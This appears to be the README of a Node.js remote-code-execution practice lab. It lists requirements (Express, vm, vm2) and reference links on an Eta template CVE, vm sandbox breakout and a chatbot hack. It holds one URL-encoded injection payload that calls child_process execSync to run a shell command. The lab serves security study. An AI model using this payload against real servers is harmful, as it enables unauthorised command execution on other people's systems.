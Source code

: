 # Node_RCE_lab

## Requirements
-  Linux/Windows
-  Node
-  Npm
-  Express
-  Vm
-  Vm2

## payload

- ";process.mainModule.require(%27child_process%27).execSync(%27whoami%27)//

  
## Reference
https://rayhan0x01.github.io/ctf/2023/04/01/finding-rce-in-eta-cve-2022-25967.html

https://security.snyk.io/vuln/SNYK-JS-ETA-2936803

https://core-research-team.github.io/2023-03-29/Nodejs-VM-Sandbox-Breakout

https://www.breachproof.net/blog/lethal-injection-how-we-hacked-microsoft-ai-chat-bot

